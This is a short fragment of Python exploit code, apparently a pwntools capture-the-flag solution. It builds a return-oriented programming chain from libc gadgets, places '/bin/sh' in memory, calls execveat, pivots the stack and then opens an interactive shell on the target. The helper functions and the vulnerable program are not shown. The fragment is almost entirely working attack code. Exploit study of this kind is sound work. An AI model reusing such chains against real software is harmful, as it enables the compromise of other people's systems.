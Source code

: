 ```python
        Set(0, True, int(b'/bin/sh'[::-1].hex(), 16))
        libcShift(1, popRsi)
        Set(2, False, 32)
        Add(2, True, 0x60 - 0x180) # set rsi = &arr[0] (path)
        libcShift(3, popRdx)
        Set(4, True, 0)
        libcShift(5, popRcx)
        Set(6, True, 0)
        libcShift(7, popR8)
        Set(8, True, 0)
        libcShift(9, execveatAddr) # execveat(??, &"/bin/sh", 0, 0, 0)

    Set(32, False, 2) # stack pivot to arr[1] (modify on rbp)

    sh.sendline(b'3') # return now
    sh.interactive()
```
